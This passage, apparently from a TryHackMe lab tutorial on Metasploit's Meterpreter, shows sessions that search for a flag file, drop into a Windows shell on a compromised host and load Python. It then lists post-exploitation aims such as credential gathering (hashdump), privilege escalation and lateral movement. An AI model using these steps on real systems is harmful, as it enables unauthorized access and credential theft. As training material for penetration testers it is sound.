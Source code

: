 ​            The search command        

```shell-session
           meterpreter > search -f flag2.txt
Found 1 result...
    c:\Windows\System32\config\flag2.txt (34 bytes)
meterpreter >
```



**Shell**

The shell command will launch a regular command-line shell on the target system. Pressing CTRL+Z    will help you go back to the Meterpreter shell.

​            The shell command        

```shell-session
           meterpreter > shell
Process 2124 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
        
```

# Post-Exploitation 

Meterpreter provides several important post-exploitation tools.

Commands mentioned previously, such as `getsystem` and `hashdump` will provide important leverage and information for privilege  escalation and lateral movement. Meterpreter is also a good base you can use to run post-exploitation modules available on the Metasploit  framework. Finally, you can also use the load command to leverage  additional tools such as Kiwi or even the whole Python language.

​            Loading Python        

```shell-session
           meterpreter > load python
Loading extension python...Success.
meterpreter > python_execute "print 'TryHackMe Rocks!'"
[+] Content written to stdout:
TryHackMe Rocks!

meterpreter >
        
```



The post-exploitation phase will have several goals; Meterpreter has functions that can assist all of them.

- Gathering further information about the target system.
- Looking for interesting files, user credentials, additional network interfaces, and generally interesting information on the target system.
- Privilege escalation.
- Lateral movement.
